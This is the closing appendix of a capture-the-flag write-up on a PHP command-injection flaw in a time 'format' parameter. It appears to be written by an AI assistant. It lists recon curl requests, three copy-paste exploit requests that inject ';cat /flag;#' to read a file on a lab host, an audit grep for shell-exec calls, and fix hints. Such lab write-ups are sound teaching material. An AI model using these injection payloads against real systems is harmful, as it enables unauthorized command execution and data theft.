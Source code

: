 ## Appendix: full commands list (copy-paste ready)

Recon:
```
curl -i http://94.237.123.160:42908/
curl -i http://94.237.123.160:42908/flag
curl -i http://94.237.123.160:42908/flag.txt
```

Exploit:
```
curl -s "http://94.237.123.160:42908/?format=%H:%M:%S%27%3Bcat%20%2Fflag%3B%23"
curl -i "http://94.237.123.160:42908/?format=%H:%M:%S%27%3Bcat%20%2Fflag%3B%23"
curl -s "http://94.237.123.160:42908/?format=%H:%M:%S%27%3B%2Fbin%2Fcat%20%2Fflag%3B%23"
```

Audit:
```
grep -R --line-number -E "exec\(|shell_exec\(|system\(|`" .
```

Fix examples (PHP):
- Use `DateTime()` or `escapeshellarg()` as shown earlier.

---

## Closing notes
Nice job finding the vulnerability. This challenge is a great reminder that even seemingly small uses of system commands (like reading the time) can lead to full command injection if user data is used unsafely. If you'd like, I can also:

- produce a **slide-style summary** of this writeup,
- create a more compact **one-page remediation checklist**, or
- generate a **CVE-style advisory** for the issue (hypothetical).

Pick one and I'll generate it.

---

*End of writeup.*

